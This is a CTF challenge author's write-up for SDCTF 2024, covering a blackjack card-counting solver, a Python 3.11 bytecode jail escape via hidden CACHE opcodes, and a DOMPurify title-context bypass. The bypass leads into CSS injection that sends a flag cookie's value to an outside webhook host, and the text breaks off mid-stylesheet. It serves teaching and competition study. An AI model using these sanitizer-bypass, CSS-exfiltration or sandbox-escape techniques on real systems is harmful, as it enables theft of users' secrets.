


This weekend, ACM Cyber at UC San Diego hosted **SDCTF 2024**, an online CTF competition lasting 48 hours, where players around the world complete to solve challenges and capture flags in the categories: web, pwn, reverse engineering, cryptography, and misc. I was one of the authors for this CTF, and wrote 4 challenges in total. In this post, I will share notes on my explanations, ideas, and solutions for each of the challenges I wrote.

# Misc

## Blackjack (14 solves, 162 pts)

### Description

GAMBA

### Challenge

You are given an attachment `blackjack.zip`. This file contains the necessary files to run a Docker container. Once running the entry, `main.py` script, we are prompted with the following:

```console
[Dealer] Resetting shoe...
Player balance: 30000
[BEGIN USER INTERACTION]
Player, enter your bet:
```

We are given $30000 to start with and we can place bets to play blackjack. The `main.py` file is as follows:

```py
import os
from game import Game, TABLE_MINIMUM, TABLE_MAXIMUM, TOO_MUCH_MONEY

FLAG = os.environ.get("FLAG", "sdctf{test_flag}")

game = Game()
game.start_game()
while True:
    game.play_round()
    if game.player.balance < TABLE_MINIMUM:
        print("You don't have enough money to play another round. Goodbye.")
        break
    if game.player.balance > TOO_MUCH_MONEY:
        print("I'm sorry I'm going to have to back you off. You're too good for us.")
        print(f"Here is a flag for your troubles: {FLAG}")
        break
```

From here we can see that if we can get our balance to exceed `TOO_MUCH_MONEY`, we will be given the flag. The `TOO_MUCH_MONEY` is defined in `game.py` as `150000`. The `Game` class is defined in `game.py` and contains the logic for the blackjack game.

```py
TABLE_MINIMUM = 50
TABLE_MAXIMUM = 2000
TOO_MUCH_MONEY = 150000
```

### Notes

I hope people didn't spend too much time trying to find a programming bug in the blackjack source code itself, since there was not intended to be one. The intended solution is a "vulnerability" in the game of Blackjack itself. While the game normally has a house edge, its possible to play in such a way that the player can start to even out those odds. This strategy is called "Basic Strategy" and is a set of rules that tells you the optimal best move to make in every situation. Its possible to go further using rules such as card counting and deviations, and this can start to give the player an edge over the house.

When developing the challenge, I found with only basic strategy, a bit of time, and some luck, it was possible to still achieve the target balance, so this was sufficient. This was more of a PPC challenge and I hope people enjoyed it.

### Solve Script

```py
H, S, D, SP = 'hit', 'stand', 'double', 'split'

PLAYER_TOTAL = [
    #   2       3       4       5       6       7       8       9       10      A
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 2
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 3
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 4
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 5
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 6
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 7
    [   H,      H,      H,      H,      H,      H,      H,      H,      H,      H   ],  # 8
    [   H,      D,      D,      D,      D,      H,      H,      H,      H,      H   ],  # 9
    [   D,      D,      D,      D,      D,      D,      D,      D,      H,      H   ],  # 10
    [   D,      D,      D,      D,      D,      D,      D,      D,      D,      H   ],  # 11
    [   H,      H,      S,      S,      S,      H,      H,      H,      H,      H   ],  # 12
    [   S,      S,      S,      S,      S,      H,      H,      H,      H,      H   ],  # 13
    [   S,      S,      S,      S,      S,      H,      H,      H,      H,      H   ],  # 14
    [   S,      S,      S,      S,      S,      H,      H,      H,      H,      H   ],  # 15
    [   S,      S,      S,      S,      S,      H,      H,      H,      H,      H   ],  # 16
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # 17
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # 18
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # 19
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # 20
]

HANDS_WITH_ACE = [
    #   2       3       4       5       6       7       8       9       10      A
    [   H,      H,      H,      D,      D,      H,      H,      H,      H,      H   ],  # A2
    [   H,      H,      H,      D,      D,      H,      H,      H,      H,      H   ],  # A3
    [   H,      H,      D,      D,      D,      H,      H,      H,      H,      H   ],  # A4
    [   H,      H,      D,      D,      D,      H,      H,      H,      H,      H   ],  # A5
    [   H,      D,      D,      D,      D,      H,      H,      H,      H,      H   ],  # A6
    [   S,      D,      D,      D,      D,      S,      S,      H,      H,      H   ],  # A7
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # A8
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # A9
]

PAIR = [
    #   2       3       4       5       6       7       8       9       10      A
    [   SP,     SP,     SP,     SP,     SP,     SP,     H,      H,      H,      H   ],  # 2,2
    [   SP,     SP,     SP,     SP,     SP,     SP,     H,      H,      H,      H   ],  # 3,3
    [   H,      H,      H,      SP,     SP,     H,      H,      H,      H,      H   ],  # 4,4
    [   D,      D,      D,      D,      D,      D,      D,      D,      H,      H   ],  # 5,5
    [   SP,     SP,     SP,     SP,     SP,     H,      H,      H,      H,      H   ],  # 6,6
    [   SP,     SP,     SP,     SP,     SP,     SP,     H,      H,      H,      H   ],  # 7,7
    [   SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP  ],  # 8,8
    [   SP,     SP,     SP,     SP,     SP,     S,      SP,     SP,     S,      S   ],  # 9,9
    [   S,      S,      S,      S,      S,      S,      S,      S,      S,      S   ],  # 10,10
    [   SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP,     SP  ],  # A,A
]

import re
def extract_cards_from_string(s):
    extract = r"\b(\w+|\d+)\s+of\b"
    return re.findall(extract, s)

def get_value(cards):
    value = 0
    aces = 0
    for card in cards:
        if card.isnumeric():
            value += int(card)
        else:
            if card == 'Ace':
                aces += 1
                value += 11
            else:
                value += 10

    while value > 21 and aces:
        value -= 10
        aces -= 1

    soft = aces > 0
    return value, soft

from pwn import *

BALANCE = 30000

sprint = print
print = lambda *x: None

def update_count(card):
    global count
    if card not in ['2', '3', '4', '5', '6', '7', '8', '9', '10', 'Jack', 'Queen', 'King', 'Ace']:
        print("INVALID CARD", card)
        exit()
    if card in ['2', '3', '4', '5', '6']:
        count += 1

    elif card in ['10', 'Jack', 'Queen', 'King', 'Ace']:
        count -= 1

count = 0
cards_seen = 0
game_state = {}

validate_end_turn_computation = 1

import time
p = remote("127.0.0.1", 36051)
while 1:
    try:
        resp = p.recvuntil(b"[BEGIN USER INTERACTION]\n")[:-len(b"[BEGIN USER INTERACTION]\n")].decode().split("\n")
        resp = [x.strip() for x in resp if x]

        for line in resp:
            print(f"[RESP] {line}")

        # This message gives information about the count
        if resp[-1].startswith("Player balance"):
            BALANCE = float(resp[-1].split(" ")[-1])
            sprint("MY BALANCE: ", BALANCE)
            dealer_hand = [line for line in resp if line.startswith("[Dealer] Dealer's ending hand")]
            if not dealer_hand:
                validate_end_turn_computation -= 1
                if validate_end_turn_computation < 0:
                    print("SOMETHING IS WRONG")
                    exit()
            else:
                ending_hand_line = [line for line in resp if line.startswith("[Dealer] Dealer's ending hand")][0]
                my_ending_hands = [line for line in resp[resp.index(ending_hand_line):] if line.startswith("(Hand ")]

                dealer_hand = extract_cards_from_string(ending_hand_line)
                my_ending_hands = [extract_cards_from_string(hand) for hand in my_ending_hands]
                print(resp)
                print(my_ending_hands, dealer_hand)
                for card in dealer_hand:
                    update_count(card)
                    cards_seen += 1

                for hand in my_ending_hands:
                    for card in hand:
                        update_count(card)
                        cards_seen += 1

        for line in resp:
            if "Resetting shoe" in line:
                print("RESET COUNT")
                count = 0
                cards_seen = 0
            if "Remaining balance" in line:
                BALANCE = float(line.split('$')[-1])
            elif "Dealer's up card" in line:
                upcard = extract_cards_from_string(line)[0]
                game_state['upcard'], _ = get_value([upcard])

        input_prompt = p.recv().decode()

        print("INPUT>>> " + input_prompt)
        if "enter your bet" in input_prompt:
            # High risk high reward counting strategy
            true_count = int(count / ((52*4 - cards_seen) / (52)))
            if true_count <= 1:
                bet = max(50, min(BALANCE, 50))
            elif true_count == 2:
                bet = max(50, min(BALANCE, 500))
            elif true_count == 3:
                bet = max(50, min(BALANCE, 2000))
            elif true_count == 4:
                bet = max(50, min(BALANCE, 2000))
            elif true_count >= 5:
                bet = max(50, min(BALANCE, 2000))

            p.sendline(str(int(bet)))
            BALANCE -= bet

            game_state = {}

        elif "What would you like to do?" in input_prompt:
            options = input_prompt.split("(")[-1].split(")")[0].split(", ")
            print(resp)
            my_cards = [line for line in resp if line.startswith("(Hand ")][-1]
            my_cards = extract_cards_from_string(my_cards)
            my_value, soft = get_value(my_cards)

            if my_value == 21:
                p.sendline(b"stand")
                continue

            upcard = game_state['upcard']
            print("My cards: ", my_cards)
            print("My value: ", my_value)
            print("Soft: ", soft)
            print("Upcard: ", upcard)
            if len(my_cards) == 2 and my_cards[0] == my_cards[1] and 'split' in options:
                print("USING PAIR STRATEGY")
                option = PAIR[get_value([my_cards[0]])[0] - 2][upcard - 2]
            elif soft:
                print("USING HANDS WITH ACE STRATEGY")
                option = HANDS_WITH_ACE[my_value - 13][upcard - 2]
            else:
                print("USING PLAYER TOTAL STRATEGY")
                option = PLAYER_TOTAL[my_value - 2][upcard - 2]

            def resolve_and_execute(option):
                if option in options:
                    p.sendline(option)
                    print(f"Choosing {option}")
                else:
                    print(f"Choosing {option}, resolving to hit")
                    p.sendline(b'hit')
            resolve_and_execute(option)

    except EOFError:
        sprint(p.clean().decode())
        break

print(resp)
```

### References

- https://www.blackjackapprenticeship.com/blackjack-strategy-charts/
- https://en.wikipedia.org/wiki/Card_counting

---

## my-favorite-code (1 solve, 500 pts)

### Description

Hey. I'm looking for my friend Penguin, have you seen him?

### Challenge

You are given an attachment `my-favorite-code.zip`. This file contains `jail.py`, and a Dockerfile for the remote setup.

The file first prompts the user to select their favorite python opcode. It then adds both the users selected opcode and `COMPARE_OP` to a set called `CHOICES`.

```py
CHOICES = set()

print("My favorite python opcode is COMPARE_OP!")
CHOICES.add('COMPARE_OP')
print("What is your favorite python opcode?")
op = input()

if op not in opcode.opmap:
    print("That opcode doesn't exist!")
    exit()

CHOICES.add(op)
```

Next, we are asked to provide some base64 encoded string.

```py
print("I wonder what we can do with these...")
code = base64.b64decode(input())
```

Finally, the code is run:

```py
if not run(code):
    print("I guess not much.")
else:
    print("WOW")
```

Lets look a bit closer at this run method:

```py
def get_instructions(func):
    return {x.opname for x in dis.Bytecode(func)}

def run(code):
    code = marshal.loads(code)
    instructions = get_instructions(code)
    if instructions != CHOICES:
        return False

    def runner():
        ...

    runner.__code__ = code
    runner()
```

We unmarshal the bytes sent by the user. We then use `dis.Bytecode` to get a set containing of all the OPCODES in the main procedure of the function. Finally, if this set is equal to our original choices, we run the code, by replacing the `__code__` object of a dummy function to the inputted code object, and calling it.

Note furthermore, the docker container shows that we have a flag on the system, which implies that this challenge requires us to run arbitrary code and escape the jail.

### Solution

What appears to be happening is that we need to somehow gain arbitrary code execution using only 2 OPCODES. But this seems impossible?! Expecially since we are forced to use `COMPARE_OP`, which at face value doesn't seem to do much. We can try picking an opcode like CALL, but we end up with issues since we still need to use LOAD_NAME or LOAD_GLOBAL to get function we want to call. If we use LOAD_NAME, then we can get objects on the stack, but we can't really do much with it.

A key insight, which was provided and necessary to identify in the challenge files is the Python version of the server. In the Dockerfile, we can see the server is running `python3.11`. Python3.11 adds some interesting features, but 1 subtle feature which it states in the release notes:

> The bytecode now contains inline cache entries, which take the form of the newly-added CACHE instructions. Many opcodes expect to be followed by an exact number of caches, and instruct the interpreter to skip over them at runtime. Populated caches can look like arbitrary instructions, so great care should be taken when reading or modifying raw, adaptive bytecode containing quickened data.

### Inline Cache?

Inline cache is an addition added via the following cpython [issue](https://github.com/python/cpython/issues/90997). The idea is that certain OPCODES will be provided space that allows for the interpreter to cache certain values. This is done to speed up the interpreter, and is a form of optimization. The cache is stored in the bytecode directly, so does not require any overhead or change on the interpreter side. We can see this when we inspect certain functions using dis in `python3.11`:

```py
Python 3.11.4 (main, Jun  7 2023, 12:45:48) [GCC 11.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from dis import dis
>>> def f():
...     return int('1')
...
>>> dis(f, show_caches=True)
  1           0 RESUME                   0

  2           2 LOAD_GLOBAL              1 (NULL + int)
              4 CACHE                    0
              6 CACHE                    0
              8 CACHE                    0
             10 CACHE                    0
             12 CACHE                    0
             14 LOAD_CONST               1 ('1')
             16 PRECALL                  1
             18 CACHE                    0
             20 CALL                     1
             22 CACHE                    0
             24 CACHE                    0
             26 CACHE                    0
             28 CACHE                    0
             30 RETURN_VALUE
```

With the `show_caches` flag in any dis function, we can see the caches space for each operation. What this means at interest for us, is that when LOAD_GLOBAL instruction is executed, the interpreter will need to actually jump over the 5 cache entries. Interestingly, `COMPARE_OP` is one such function which has 2 CACHE entries.

Note however, that if we call `get_instructions` function as shown in the source code on this function:

```py
>>> get_instructions(f)
{'CALL', 'LOAD_GLOBAL', 'RETURN_VALUE', 'LOAD_CONST', 'PRECALL', 'RESUME'}
```

We don't see those CACHE lines. With this, we have an idea of how to solve the challenge.
We want to design our bytecode in such a way that the only OPCODES visible to dis, are `COMPARE_OP`, and something else. We can then use the CACHE entries to store the actual OPCODES we want to run. What will that something else be, `JUMP_FORWARD`! This will give us the ability to jump into these CACHE entries, and execute the hidden OPCODES.

### Solve Script

```py
import opcode
from opcode import opmap
import base64
import dis

import marshal
import tempfile

import sys, os

for k in opmap:
    globals()[k] = opmap[k]

def f():
    breakpoint()

code = f.__code__
b = marshal.dumps(code)

dis.dis(code, show_caches=True)
co_code = code.co_code
print(len(co_code))

co_code_section = len(co_code).to_bytes(4, byteorder='little') + co_code


prefix = b[:b.find(co_code_section)]
suffiix = b[b.find(co_code_section) + len(co_code_section):]

"""
Note: Lines that end with #, indicate its visible to dis.Bytecode, rest are hidden
"""
new_code = bytearray([
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    LOAD_GLOBAL, 1,
    0, 0,
    COMPARE_OP, 0, #
    0, 0,
    0, 0,
    COMPARE_OP, 0, #
    NOP, 0,
    JUMP_FORWARD, 1,
    COMPARE_OP, 0, #
    PRECALL, 0,
    0, 0,
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    CALL, 0,
    0, 0,
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    POP_TOP, 0,
    LOAD_CONST, 0,
    JUMP_FORWARD, 1, #
    COMPARE_OP, 0, #
    RETURN_VALUE, 0
])


print(f"New code: {new_code}")
dis.dis(new_code )
print('-'*40)
dis.dis(new_code, show_caches=True )

new_code_section = len(new_code).to_bytes(4, byteorder='little') + new_code

new_code_object = prefix + new_code_section + suffiix
payload = base64.b64encode(new_code_object)

def runner():
    ...

runner.__code__ = marshal.loads(new_code_object)
# runner()

from pwn import *

r = remote('localhost', 33851)
r.sendlineafter(b"opcode?", b"JUMP_FORWARD")
r.sendlineafter(b"these...", payload)
r.interactive()
```

### Notes

This was hopefully a fun challenge to solve. I think the overall payload is not too long, but the main inspiration is realizing how to trick the disassembler in what is actually being run. Its interesting to see how the code is offset by the CACHE entries, and how we can use this to our advantage.

This challenge had one solve by `Maple Bacon`, and used an additional trick, which was the fact that the code object could contain lambda functions, but these would not be checked by the disassembler. This allowed them to create a lambda function that would execute the hidden code object. However in order to call this lambda function, it was still necessary to use the CACHE jump trick. Very nice!

### References

- https://docs.python.org/3.11/whatsnew/3.11.html#cpython-bytecode-changes
- https://github.com/python/cpython/issues/90997

---

# Web

## fancy_text_viewer (4 solves, 444 pts)

### Description

WOW TEXT SO COOL. Take a look at how cool I made this text. I hear the admin gets special text, not fair!

### Challenge

You are given source code and a route to a website called Fancy Text Viewer. Upon logging in, you are greeted with a simple page that allows you to enter text:


When entered, you are taken to `/view` where you can see the text you entered in a fancy format.

The `app.js` is the most important file in this challenge. We import the following dependencies:

```js
import express from "express";
import cookieParser from "cookie-parser";
import fs from "fs";
import { JSDOM } from "jsdom";
import createDOMPurify from "dompurify";
import bot_goto from "./bot.js";
```

We then create the express app, and set up the cookie parser. We then define various routes:

```js
const app = express();
...

app.set("view engine", "ejs");
app.use(cookieParser());
app.use('/static', express.static('public'))

app.use((req, res, next) => {
    for (const key in req.query) {
        let value = req.query[key];
        delete req.query[key];
        req.query[key.toLowerCase()] = value;
    }
    next();
});
app.get("/", (req, res) => {
    const sharedby = sanitize(req.query.sharedby || "");
    const username = req.cookies.username || "GUEST";
    const flag = req.cookies.flag || "";
    res.render("index", { sharedby, username, flag });
});

app.get("/login", (req, res) => {
    const secret = req.query.secret || "";
    if (secret !== ADMIN_PASSWORD) {
        res.status(401).send("login fail");
    } else {
        res.cookie("username", "ADMIN");
        res.cookie("flag", FLAG, { httpOnly: true });
        res.redirect("/");
    }
});

app.get("/view", (req, res) => {
    const content = req.query.content;
    const clrs = [];
    for (let i = 0; i < 4; i++) {
        clrs.push("#" + randomhexstring(6));
    }
    res.render("view", { content, clrs });
});

app.get("/redirect", (req, res) => {
    let url = req.query.url;
    if (!url.startsWith("http://") && !url.startsWith("https://")) {
        url = "http://" + url;
    }
    res.redirect(url);
});

app.get("/bot", (req, res) => {
    const url = req.query.url;
    bot_goto(url, ADMIN_PASSWORD);
    res.send("OK");
});

app.listen(4444, "0.0.0.0", () => {
    console.log("Server is running on http://0.0.0.0:4444");
});
```

We also have an ejs template for `index.ejs`, which is as follows:

```html
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>
        Fancy Text Viewer
        <% if (sharedby) { %>
            | Shared by <%- sharedby %>
        <% } %>
    </title>
    <!DOCTYPE html>
    <html>

    <head>
        <link rel="stylesheet" href="/static/style.css">
    </head>
</head>

<body>
    <div class="container">
        <h2>Hello <%- username %>!</h2>
        <p>Enter your text below, and we will make it fancy!</p>

        <form action="/view" method="get">
            <input type="text" name="content" placeholder="Enter your text here" required>
            <br>
            <br>
            <button type="submit">Submit</button>
        </form>

        <br>
        <% if (flag) { %>
            <p>Oh? You seem to have a flag! You can view it <a href="view?content=<%- flag %>">here</a>!</p>
        <% } %>

        <% if (username !=='GUEST' ) { %>
            <div>
                <p>Do you like this site? Share it to a friend! </p>
                <button id="shareButton">Share</button>
                <script>
                    window.onload = () => {
                        let sharingUrl = new URL(window.location.href);

                        const usernameCookie = document.cookie.split('; ').find(cookie => cookie.startsWith('username='));
                        if (usernameCookie) {
                            const usernameValue = usernameCookie.split('=')[1];
                            sharingUrl.searchParams.append('sharedby', usernameValue);
                        }

                        document.getElementById('shareButton').addEventListener('click', () => {
                            navigator.share({
                                title: 'Fancy Text Viewer',
                                text: 'Check out this fancy text viewer!',
                                url: sharingUrl
                            })
                        });
                    }
                </script>
            </div>
        <% } %>
    </div>
    <br>
</body>
</html>
```

We can further notice the bot.js file, which does the following:

```js
import puppeteer from "puppeteer";

const sleep = (milliseconds) => {
  return new Promise((resolve) => setTimeout(resolve, milliseconds));
};

const CHALL_URL = "http://127.0.0.1:4444";

export default async function bot_goto(url, password) {
  console.log(`Requesting ${url}`);
  try {
    const browser = await puppeteer.launch({
      args: [
        "--no-sandbox",
        "--disable-gpu",
        "--js-flags=--noexpose_wasm,--jitless",
      ],
      executablePath: "/usr/bin/google-chrome",
    });

    let page = await browser.newPage();
    await page.goto(CHALL_URL + "/login?secret=" + password);
    await sleep(1000);
    await page.close();
    await sleep(100);

    page = await browser.newPage();
    await page.goto(url);
    await sleep(10000);
    await page.close();
    await sleep(100);
  } catch (e) {
    console.log(`Request Failed (${url})`);
  }
}
```

Looking at the `/login` route again more closely,

```js
app.get("/login", (req, res) => {
  const secret = req.query.secret || "";
  if (secret !== ADMIN_PASSWORD) {
    res.status(401).send("login fail");
  } else {
    res.cookie("username", "ADMIN");
    res.cookie("flag", FLAG, { httpOnly: true });
    res.redirect("/");
  }
});
```

We can see that the if a user successfully logs in with the correct `ADMIN_PASSWORD`, they will be given the flag in a cookie. The admin bot that we see correctly knows this password, and will log in as the admin. The admin bot will then visit any page we give it. Its clear that we need to somehow get the flag by some means.

### Solution

So there are a few initial observations that are helpful in this challenge. First overall there isn't actually much you can control. The admin bot will have its username and flag cookie set on its own, but the only other input is the `sharedby` param in the `/` page. There is also a pretty suspicious `sanitize` function which clearly very relevant to the challenge.

```js
function sanitize(str) {
  str = str.replace(/[^(0-Z. )]/g, "");
  return DOMPurify.sanitize(str);
}
```

The `sharedby` param that we pass will be filtered, then sanitized by `DOMPurify.sanitize`. Note this means that the character set is 0-9, A-Z, dot, space, and some special characters between 0x3A and 0x40 (`:;<=>?@`).

Additionally this parameter is not sanitized when it is passed to the `index.ejs` file.

```html
<title>
  Fancy Text Viewer <% if (sharedby) { %> | Shared by <%- sharedby %> <% } %>
</title>
```

Second, note that even though the flag cookie is HTTPOnly, its actually present in the DOM. You can determine how it looks by simply setting your own flag cookie and seeing how the server renders the dialog, or noticing it in the `index.ejs` file:

```html
<p>
  Oh? You seem to have a flag! You can view it
  <a href="view?content=<%- flag %>">here</a>!
</p>
```

With this, note that XSS is not necessary to solve this challenge, but a leak via CSS Injection is sufficient.

Which brings us to the main part of the challenge, how do you get CSS Injection? The main idea here is that the browser parses the `<title>` a bit differently. Try this in a browser console:

```js
document.write("<head><title><title></title></head>");
```

Notice if you inspect the HTML in the browser, the inner `title` tag is actually automatically escaped.

```html
<title>&lt;title&gt;</title>
```

The DOMPurify context of the `sharedby` variable is different than the actual browser, and the DOMPurify sanitization context is not expected to be in this context.

It should be known that one thing that DOMPurify also does is Prevent Structural Damage:

> The HTML string or document returned by DOMPurify is sane HTML and doesn't miss closing tags or other bits that might ruin your website's structure or even leak data. If you find a way to do that anyway, it's a bug and we will fix it. Please let us know. ([source](https://github.com/cure53/DOMPurify/wiki/Security-Goals-&-Threat-Model))

What this means is that even though we can't use `/` in our `sharedby` variable, maybe we can somehow get DOMPurify to "fix" structural damage in such a way that it generates the `</title>` tag for us followed by a `style` tag? Well we can try this out.

### Fuzzing

You can do this by fuzzing locally. Here is a script that I used:

```js
const ejs = require('ejs');
const fs = require('fs');
const createDOMPurify = require("dompurify");
const { JSDOM } = require("jsdom");

const window = new JSDOM("").window;
const DOMPurify = createDOMPurify(window);

const template = `
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>
        Fancy Text Viewer
        <% if (sharedby) { %>
            | Shared by <%- sharedby %>
        <% } %>
    </title>
    <!DOCTYPE html>
    <html>

    <head>
        <link rel="stylesheet" href="/static/style.css">
    </head>
</head>
<body>
    <div class="container">
    </div>
</body>
`;


// FROM https://github.com/cure53/DOMPurify/blob/main/src/tags.js
const html = [ 'a', 'abbr', ...];
const svg = [  'svg', 'a', ...];

function random_choice(list) {
  let index = Math.floor(Math.random() * list.length);
  return list[index];
}

function getIndicesOf(searchStr, str, caseSensitive) {
  var searchStrLen = searchStr.length;
  if (searchStrLen == 0) {
      return [];
  }
  var startIndex = 0, index, indices = [];
  if (!caseSensitive) {
      str = str.toLowerCase();
      searchStr = searchStr.toLowerCase();
  }
  while ((index = str.indexOf(searchStr, startIndex)) > -1) {
      indices.push(index);
      startIndex = index + searchStrLen;
  }
  return indices;
}

let wl = html.concat(svg);

function get_injection_string(p) {
    return `<${random_choice(wl)}>INJECT`
}

let p_len = 8;
for ( ; ; ) {
  let payload = []
  for (let i = 0; i < p_len; i++) {
    payload.push(get_injection_string(i));
  }
  let payload_main = payload.join('');

  const data = {
    sharedby: DOMPurify.sanitize(payload_main),
  };

  window.document.getElementsByTagName('html')[0].innerHTML = ejs.render(template, data);
  var resp = window.document.getElementsByTagName('html')[0].innerHTML;


  // Try to see if we were able to escape the title tag. Since DOMPurify allows styles by default, this can give us a lead into injecting CSS.
  var indices = getIndicesOf("INJECT", resp);
  if (indices.some((e) => e > resp.indexOf('</title>'))) {
    console.log("Payload: ", payload_main);
    console.log("Sanitized: ", data.sharedby);
    console.log(resp)
  }
}
```

Really quickly, we will start to get results of tags that find INJECT string outside the `</title>` in the actual dom. (And if you try any of these as the `sharedby` param on the actual site, you will also see this behavior).

```html
Payload:
<table>
  INJECT<title>
    INJECT<filter>INJECT<progress>INJECT<textarea>INJECT<ol>INJECT<marquee>INJECT<colgroup>INJECT
    Sanitized:
    <title>INJECT&lt;filter&gt;INJECT&lt;progress&gt;INJECT&lt;textarea&gt;INJECT&lt;ol&gt;INJECT&lt;marquee&gt;INJECT&lt;colgroup&gt;INJECT
  </title>
  <table></table>
  INJECT
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>
      Fancy Text Viewer | Shared by
      &lt;title&gt;INJECT&lt;filter&gt;INJECT&lt;progress&gt;INJECT&lt;textarea&gt;INJECT&lt;ol&gt;INJECT&lt;marquee&gt;INJECT&lt;colgroup&gt;INJECT
    </title>
  </head>
  <body>
    <table></table>
    INJECT
    <link rel="stylesheet" href="/static/style.css" />
    <div class="container"></div>
  </body>
</table>
```

You can note here that the main issue that causes this behavior seems to be the `<table>` tag. You can continue to modify this fuzz script to specify some explicit tags like table, style, and fuzz the rest.

Eventually, the payload I found that was:

```html
<TABLE><TH><SVG><STYLE>INJECT<TITLE><COL><TITLE>
```

When this gets passed through DOMPurify, it becomes:

```html
<title></title>
<table>
  <tbody>
    <tr>
      <th>
        <svg>
          <style>
            INJECT<title></title>
          </style>
        </svg>
      </th>
    </tr>
  </tbody>
  <colgroup>
    <col />
  </colgroup>
</table>
```

And when its in a title context, note that the first closing title tag is before the `<style>INJECT`, meaning the style will be outside the title tag and will apply to the overall document.

### Exfiltration

But still, now how do we exfiltrate? For this, we can look back to the `app.js` and notice a few convenient gadgets. These two inclusions are expecially interesting:

```js
app.use((req, res, next) => {
  for (const key in req.query) {
    let value = req.query[key];
    delete req.query[key];
    req.query[key.toLowerCase()] = value;
  }
  next();
});

app.get("/redirect", (req, res) => {
  let url = req.query.url;
  if (!url.startsWith("http://") && !url.startsWith("https://")) {
    url = "http://" + url;
  }
  res.redirect(url);
});
```

The first seems to normalize all keys and make them lowercase. This seems like it could definately be useful, since our character set only allows uppercase characters.

The second is a redirect route, which will redirect to any url we give it. Note though that this redirect endpoint will actually add `http://` to our url if it doesn't already start with that. This might be interesting as well since we dont have a `/`, but can use this so get a URL.

Hopefully these are hinting to the solution now, and we can put it all together. We don't have that many characters to work with in our stylesheet, so we atleast need to import another one. Here is the final payload I used:

```html
<TABLE><TH><SVG><STYLE>@IMPORT URL(REDIRECT?URL=EO5VZGJXDJI72UU.M.PIPEDREAM.NET)<TITLE><COL><TITLE>
```

This will import the stylesheet at `EO5VZGJXDJI72UU.M.PIPEDREAM.NET`, a free webhook service.
This stylesheet can follow a standard CSS Leak pattern: We utilize a CSS selector on the `a` tags' `href` attribute. If we have a match, we set the background to our webhook, with a parameter that identifies what letter triggered it. We can leak the flag one (or multiple) characters at a time using this procedure.

```css
a[href^="view\?content\=sdctf{a"] {
  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{a);
}
a[href^="view\?content\=sdctf{b"] {
  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{b);
}
a[href^="view\?content\=sdctf{c"] {
  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{c);
}
a[href^="view\?content\=sdctf{d"] {
  background: url(https://eo5vzgjxdji72uu.m.pipedream.net?flag=sdctf{d);
}
a[href^="view\?content\=sdctf{e"] {
